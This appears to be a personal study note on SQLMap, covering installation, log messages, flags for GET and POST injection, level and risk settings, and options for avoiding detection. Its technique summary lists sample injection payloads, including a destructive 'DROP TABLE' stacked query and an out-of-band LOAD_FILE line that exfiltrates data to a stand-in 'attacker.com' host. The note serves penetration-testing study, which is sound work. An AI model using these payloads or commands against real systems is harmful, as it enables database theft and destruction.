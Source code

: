 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
[SQLMap](https://github.com/sqlmapproject/sqlmap) is a tool for automating the process of detecting and exploiting SQLi vulnerabilities. It supports a plethora of databases types and the following techniques:
- `B` : Boolean-based blind - `AND 1=1`
- `E` : Error-based - `AND GTID_SUBSET(@@version,0)`
- `U` : Union query-based - `UNION ALL SELECT 1,@@version,3`
- `S` : Stacked queries - `; DROP TABLE users`
- `T` : Time-based blind - `AND 1=IF(2>1,SLEEP(5),0)`
- `Q` : Inline queries - `(SELECT @@version)`
- ` ` : Out-of-band injection - `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))

## Installation
```
sudo apt install sqlmap

git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## Documentation
**Cheatsheet:** 
**Website:** https://github.com/sqlmapproject/sqlmap

## Important log messages
- `Target URL content is stable` : means that the responses are fairly consistent meaning its easier to spot the effects of SQLi attempts
- `GET parameter 'id' appears to be dynamic` : `dynamic` means that changes made to its value, change the output in the response (opposite is `static`)
- `heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')` : means that the get parameter needs to be tested further and it has attempted to guess the DBMS provider based on output.
- `heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks` : SQLMap also quickly runs XSS tests. Its nice to have when running against large websites, *two birds with one stone*.
- `reflective value(s) found and filtering out` : a warning to say that some parts of the payload can be seen in the output so they need to be filtered out before comparing the original page content (*SQLMap does this filtering automatically*).
- `GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")` : This means that SQLMap believes this parameter is a boolean-based blind injection. The `with --string="luther"` is important as it shows that its using this consistent value as its source of TRUE and FALSE responses; this is good as we don't need to use advanced internal mechanisms which could be more susceptible to false-positives.
- `time-based comparison requires a larger statistical model, please wait...(done)` : uses a statistical model for the recognition of regular and (deliberately) delayed target responses. To use this model, SQLMap must collect a large number of responses.
- `automatically extending ranges for UNION query injection technique tests as there is at least on other (potential) technique found` : it takes a large number of requests needed to be able to recognise usable UNION payloads, compared to other techniques. It is capped by default but this cap it extended if there is a good chance of vulnerability.
- `Get parameter 'id' is vulnerable. Do you want to keep testing the others (if any)?` : if we are doing a pentest then we want to test everything, not just find a single vulnerability.

## Usage
```bash
sqlmap -h # Basic options (most common)
sqlmap -hh # Advanced options
```
> A useful trick is to take a HTTP request from a browser, `copy as cURL` and then paste that directly into `sqlmap` as it takes the same format.
> It can also use a request file using `-r [filename]` so we can save requests as files from [[Burp Suite]] and then use them with `sqlmap`.
### GET Parameters
```bash
sqlmap -u "https://example.com/index.php?id=1" --batch
```
> `--batch` skips all user-input, automatically choosing based on the default options

### POST Parameters
```bash
sqlmap -u "https://example.com/login.php" --data 'username=test&password=*'
```
> The `*` indicates that tests should only use the marked parameter, otherwise they will try all
> We can also specify a particular parameter with `-p username`

### Avoiding Detection
The `--random-agent` will change the `user-agent` header to use a regular browser value (*it picks from an internal database at random*). The `--mobile` simulates a mobile browser.

### Display Errors
`--parse-errors` will attempt to parse DBMS errors and display them as part of the logging.

### Store the traffic
If we want to save a copy of the traffic we can use `-t`. This can be useful for debugging as it will show us all requests made.

### Verbose
Verbose has 6 levels depending on how much you wish to log at each level.

### Using a proxy
If we need to redirect traffic through a proxy (eg. [[Burp Suite]]) then we can use `--proxy`

### Specifying custom Prefix / Suffix
```bash
sqlmap -u "..." --prefix="')" --suffix="-- -"
```

### Level / Risk
An `sqlmap` payload contains two things, the **vector** (*the actual SQL code being injected*) eg. `UNION ALL SELECT 1,2,VERSION()` and the **boundaries** (*the injection mechanism*) eg. prefix: `'))` suffix: `-- -`.
`--level` is a value (1-5, default 1) that extends both the vectors and boundaries being tested, the lower the expected chance of success, the higher the required level to test it.
`--risk` is a value (1-3, default 1) that extends the vectors set based on their risk of causing problems (eg. data loss and DoS).

### Success Criteria
Sometimes we need to specify manually the success criteria:
- `--code` can be used to specify which status code is a successful injection
- `--titles` can be used to base the comparison on the webpage `<title>` field
- `--strings` can be used to fixate detection on the occurrence of a string in the response
- `--text-only` strips out all the HTML tags for hidden content and only does matches against the visible (textual) content on the page

### Specifying a technique
`--technique` you can specify the SQLi technique you want to use.
![[#Summary]]


### Union SQLi Tuning
There are some extra parameters that can be specified for Union SQLi:
- `--union-cols` can be used to specify which number of columns to use
- `--union-char` can be used to specify an alternative value (instead of `NULL` or a random integer) to use in the columns
- `--union-from` can be used to specify a FROM table

